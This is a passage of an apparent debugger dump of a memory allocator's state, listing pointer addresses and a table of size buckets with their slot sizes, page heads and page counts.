      [72] = 0x0000000100015ba0
      [73] = 0x0000000100015bc0
      [74] = 0x0000000100015be0
      [75] = 0x0000000100015c00
      [76] = 0x0000000100015c20
      [77] = 0x0000000100015c40
      [78] = 0x0000000100015c60
      [79] = 0x0000000100015c80
      [80] = 0x0000000100015ca0
      [81] = 0x0000000100015cc0
      [82] = 0x0000000100015ce0
      [83] = 0x0000000100015d00
      [84] = 0x0000000100015d20
      [85] = 0x0000000100015d40
      [86] = 0x0000000100015d60
      [87] = 0x0000000100015d80
      [88] = 0x0000000100015da0
      [89] = 0x0000000100015dc0
      [90] = 0x0000000100015de0
      [91] = 0x0000000100015e00
      [92] = 0x0000000100015e20
      [93] = 0x0000000100015e40
      [94] = 0x0000000100015e60
      [95] = 0x0000000100015e80
      [96] = 0x0000000100015ea0
      [97] = 0x0000000100015ec0
      [98] = 0x0000000100015ee0
      [99] = 0x0000000100015f00
      [100] = 0x0000000100015f20
      [101] = 0x0000000100015f40
      [102] = 0x0000000100015f60
      [103] = 0x0000000100015f80
      [104] = 0x0000000100015fa0
      [105] = 0x0000000100015fc0
      [106] = 0x0000000100015fe0
      [107] = 0x0000000100016000
      [108] = 0x0000000100016020
      [109] = 0x0000000100016040
      [110] = 0x0000000100016060
      [111] = 0x0000000100016080
      [112] = 0x00000001000160a0
      [113] = 0x00000001000160c0
      [114] = 0x00000001000160e0
      [115] = 0x0000000100016100
      [116] = 0x0000000100016120
      [117] = 0x0000000100016140
      [118] = 0x0000000100016160
      [119] = 0x0000000100016180
      [120] = 0x00000001000161a0
      [121] = 0x00000001000161c0
      [122] = 0x00000001000161e0
      [123] = 0x0000000100016200
      [124] = 0x0000000100016220
      [125] = 0x0000000100016240
      [126] = 0x0000000100016260
      [127] = 0x0000000100016280
      [128] = 0x00000001000162a0
      [129] = 0x00000001000162c0
      [130] = 0x00000001000162e0
      [131] = 0x0000000100016300
      [132] = 0x0000000100016320
      [133] = 0x0000000100016340
      [134] = 0x0000000100016360
      [135] = 0x0000000100016380
      [136] = 0x00000001000163a0
      [137] = 0x00000001000163c0
      [138] = 0x00000001000163e0
      [139] = 0x0000000100016400
      [140] = 0x0000000100016420
      [141] = 0x0000000100016440
      [142] = 0x0000000100016460
      [143] = 0x0000000100016480
      [144] = 0x00000001000164a0
      [145] = 0x00000001000164c0
      [146] = 0x00000001000164e0
      [147] = 0x0000000100016500
      [148] = 0x0000000100016520
      [149] = 0x0000000100016540
      [150] = 0x0000000100016560
      [151] = 0x0000000100016580
      [152] = 0x00000001000165a0
      [153] = 0x00000001000165c0
      [154] = 0x00000001000165e0
      [155] = 0x0000000100016600
      [156] = 0x0000000100016620
      [157] = 0x0000000100016640
      [158] = 0x0000000100016660
      [159] = 0x0000000100016680
      [160] = 0x00000001000166a0
      [161] = 0x00000001000166c0
      [162] = 0x00000001000166e0
      [163] = 0x0000000100016700
      [164] = 0x0000000100016720
      [165] = 0x0000000100016740
      [166] = 0x0000000100016760
      [167] = 0x0000000100016780
      [168] = 0x0000000100014138
      [169] = 0x0000000100014138
      [170] = 0x0000000100014138
      [171] = 0x0000000100014138
      [172] = 0x0000000100014138
      [173] = 0x0000000100014138
      [174] = 0x0000000100014138
      [175] = 0x0000000100014138
      [176] = 0x0000000100014138
      [177] = 0x0000000100014138
      [178] = 0x0000000100014138
      [179] = 0x0000000100014138
      [180] = 0x0000000100014138
      [181] = 0x0000000100014138
      [182] = 0x0000000100014138
      [183] = 0x0000000100014138
      [184] = 0x0000000100014138
      [185] = 0x0000000100014138
      [186] = 0x0000000100014138
      [187] = 0x0000000100014138
      [188] = 0x0000000100014138
      [189] = 0x0000000100014138
      [190] = 0x0000000100014138
      [191] = 0x0000000100014138
      [192] = 0x0000000100014138
      [193] = 0x0000000100014138
      [194] = 0x0000000100014138
      [195] = 0x0000000100014138
      [196] = 0x0000000100014138
      [197] = 0x0000000100014138
      [198] = 0x0000000100014138
      [199] = 0x0000000100014138
      [200] = 0x0000000100014138
      [201] = 0x0000000100014138
      [202] = 0x0000000100014138
      [203] = 0x0000000100014138
      [204] = 0x0000000100014138
      [205] = 0x0000000100014138
      [206] = 0x0000000100014138
      [207] = 0x0000000100014138
      [208] = 0x0000000100014138
      [209] = 0x0000000100014138
      [210] = 0x0000000100014138
      [211] = 0x0000000100014138
      [212] = 0x0000000100014138
      [213] = 0x0000000100014138
      [214] = 0x0000000100014138
      [215] = 0x0000000100014138
      [216] = 0x0000000100014138
      [217] = 0x0000000100014138
      [218] = 0x0000000100014138
      [219] = 0x0000000100014138
      [220] = 0x0000000100014138
      [221] = 0x0000000100014138
      [222] = 0x0000000100014138
      [223] = 0x0000000100014138
      [224] = 0x0000000100014138
      [225] = 0x0000000100014138
      [226] = 0x0000000100014138
      [227] = 0x0000000100014138
      [228] = 0x0000000100014138
      [229] = 0x0000000100014138
      [230] = 0x0000000100014138
      [231] = 0x0000000100014138
      [232] = 0x0000000100014138
      [233] = 0x0000000100014138
      [234] = 0x0000000100014138
      [235] = 0x0000000100014138
      [236] = 0x0000000100014138
      [237] = 0x0000000100014138
      [238] = 0x0000000100014138
      [239] = 0x0000000100014138
      [240] = 0x0000000100014138
      [241] = 0x0000000100014138
      [242] = 0x0000000100014138
      [243] = 0x0000000100014138
      [244] = 0x0000000100014138
      [245] = 0x0000000100014138
      [246] = 0x0000000100014138
      [247] = 0x0000000100014138
      [248] = 0x0000000100014138
      [249] = 0x0000000100014138
      [250] = 0x0000000100014138
      [251] = 0x0000000100014138
      [252] = 0x0000000100014138
      [253] = 0x0000000100014138
      [254] = 0x0000000100014138
      [255] = 0x0000000100014138
      ...
    }
    buckets = {
      [0] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 8
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [1] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 9
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [2] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 10
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [3] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 11
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [4] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 12
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [5] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 13
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [6] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 14
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [7] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 15
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [8] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 16
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [9] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 18
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [10] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 20
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [11] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 22
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [12] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 24
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [13] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 26
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [14] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 28
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [15] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 30
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [16] = {
        activePagesHead = 0x00000f99edc01020
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 32
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [17] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 36
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [18] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 40
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [19] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 44
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [20] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 48
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [21] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 52
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [22] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 56
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [23] = {
        activePagesHead = 0x0000000000000000
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 60
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [24] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 64
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [25] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 72
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [26] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 80
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [27] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 88
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [28] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 96
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [29] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 104
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [30] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 112
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [31] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 120
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [32] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 128
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [33] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 144
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [34] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 160
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [35] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 176
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [36] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 192
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [37] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 208
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [38] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 224
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [39] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 240
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [40] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 256
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [41] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 288
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [42] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 320
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [43] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 352
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [44] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 384
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [45] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 416
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [46] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 448
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [47] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 480
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [48] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 512
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [49] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 576
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [50] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 640
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [51] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 704
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [52] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 768
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [53] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 832
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [54] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 896
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [55] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 960
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [56] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1024
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [57] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1152
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [58] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1280
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [59] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1408
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [60] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1536
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [61] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1664
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [62] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1792
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [63] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 1920
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [64] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2048
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [65] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2304
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [66] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2560
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [67] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 2816
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [68] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3072
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [69] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3328
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [70] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3584
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [71] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 3840
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [72] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 4096
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [73] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 4608
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [74] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 5120
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [75] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 5632
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [76] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 6144
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [77] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 6656
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [78] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 7168
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [79] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 7680
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [80] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 8192
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [81] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 9216
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [82] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 10240
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [83] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 11264
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [84] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 12288
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [85] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 13312
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [86] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 14336
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [87] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 15360
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [88] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 16384
        numSystemPagesPerSlotSpan = 4
        numFullPages = 0
      }
      [89] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 18432
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [90] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 20480
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [91] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 22528
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [92] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 24576
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [93] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 26624
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [94] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 28672
        numSystemPagesPerSlotSpan = 7
        numFullPages = 0
      }
      [95] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 30720
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [96] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 32768
        numSystemPagesPerSlotSpan = 8
        numFullPages = 0
      }
      [97] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 36864
        numSystemPagesPerSlotSpan = 9
        numFullPages = 0
      }
      [98] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 40960
        numSystemPagesPerSlotSpan = 10
        numFullPages = 0
      }
      [99] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 45056
        numSystemPagesPerSlotSpan = 11
        numFullPages = 0
      }
      [100] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 49152
        numSystemPagesPerSlotSpan = 12
        numFullPages = 0
      }
      [101] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 53248
        numSystemPagesPerSlotSpan = 13
        numFullPages = 0
      }
      [102] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 57344
        numSystemPagesPerSlotSpan = 14
        numFullPages = 0
      }
      [103] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 61440
        numSystemPagesPerSlotSpan = 15
        numFullPages = 0
      }
      [104] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 65536
        numSystemPagesPerSlotSpan = 16
        numFullPages = 0
      }
      [105] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 73728
        numSystemPagesPerSlotSpan = 18
        numFullPages = 0
      }
      [106] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 81920
        numSystemPagesPerSlotSpan = 20
        numFullPages = 0
      }
      [107] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 90112
        numSystemPagesPerSlotSpan = 22
        numFullPages = 0
      }
      [108] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 98304
        numSystemPagesPerSlotSpan = 24
        numFullPages = 0
      }
      [109] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 106496
        numSystemPagesPerSlotSpan = 26
        numFullPages = 0
      }
      [110] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 114688
        numSystemPagesPerSlotSpan = 28
        numFullPages = 0
      }
      [111] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 122880
        numSystemPagesPerSlotSpan = 30
        numFullPages = 0
      }
